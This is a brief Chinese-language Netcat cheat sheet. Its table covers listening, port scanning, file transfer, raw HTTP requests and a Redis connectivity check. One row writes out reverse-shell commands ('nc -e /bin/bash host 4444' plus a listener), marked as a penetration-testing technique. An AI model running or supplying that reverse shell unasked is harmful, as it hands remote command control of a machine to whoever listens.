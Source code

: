 `nc` 是 **Netcat** 的缩写，被称为网络工具中的 "瑞士军刀"，用于 **TCP/UDP 网络连接读写**

### 核心功能

|功能分类|命令示例|说明|
|---|---|---|
|**端口监听**|`nc -l 1234`|监听本地 TCP 1234 端口（`-l` 表示监听）|
|**端口扫描**|`nc -zv example.com 20-30`|扫描目标主机的 20-30 端口（`-z` 扫描，`-v` 详细信息）|
|**数据传输**|`nc -l 1234 > file.txt`  <br>`nc host 1234 < file.txt`|从远程主机接收文件 → 发送文件|
|**HTTP 请求**|`printf "GET / HTTP/1.0\r\n\r\n" \| nc example.com 80`|手动发送 HTTP 请求|
|**反向 Shell**|目标机: `nc -e /bin/bash host 4444`  <br>控制端: `nc -l 4444`|建立远程命令控制（⚠️ 渗透测试常用，需谨慎）|

**快速测试服务连通性**
```
echo "PING" | nc localhost 6379  # 测试 Redis 服务是否响应
```